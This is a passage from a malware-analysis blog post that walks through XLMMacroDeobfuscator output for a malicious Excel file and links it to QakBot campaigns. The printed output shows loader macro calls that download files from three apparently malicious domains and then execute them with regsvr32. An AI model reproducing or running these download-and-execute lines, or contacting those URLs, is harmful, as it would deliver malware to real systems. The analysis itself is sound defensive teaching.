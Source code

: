 <figure>
<img src="https://raw.githubusercontent.com/mncmb/mncmb.github.io/master/_posts/Maldoc-analysis-101/xlmdeobfuscator.png">
<figcaption>XLMMacroDeobfuscator output for RQ-1206231314.xlsb</figcaption>
</figure>

The output of `XLMDeobfuscator` is great for IOC extraction. It shows calls to different Windows API methods and their parameters.

```
CELL:E14       , FullEvaluation      , CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://leadindia.org/ZcB75lrD/gt.png","C:\Dabmo\dal1.ocx",0,0)
CELL:E16       , FullEvaluation      , CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://chromedomemotorcycleproducts.com/3EA8kMgxh/gt.png","C:\Dabmo\dal2.ocx",0,0)
CELL:E18       , FullEvaluation      , CALL("urlmon","URLDownloadToFileA","JJCCBB",0,"https://chromedomemp.com/V29gSMjM/gt.png","C:\Dabmo\dal3.ocx",0,0)
CELL:E20       , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","regsvr32","C:\Dabmo\dal1.ocx",0,5)
CELL:E22       , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","regsvr32","C:\Dabmo\dal2.ocx",0,5)
CELL:E24       , FullEvaluation      , CALL("Shell32","ShellExecuteA","JJCCCJJ",0,"open","regsvr32","C:\Dabmo\dal3.ocx",0,5)
```
From the textual output you can see the `CALL` method followed by the `dll` and `function` that was called. Afterwards comes what I think is a descriptor of the argument types (return type, [type of other args, ...]) and the parameters of the function.

From this example we can gather that the maldoc is a loader that tries to download 3 other files. Puts them in the location `"C:\Dabmo\dal[X].ocx"` and starts them with regsvr32. This is typical for [current QAKBot campaigns](https://www.microsoft.com/security/blog/2021/12/09/a-closer-look-at-qakbots-latest-building-blocks-and-how-to-knock-them-down/).


Thanks for reading. I hope you learned something.
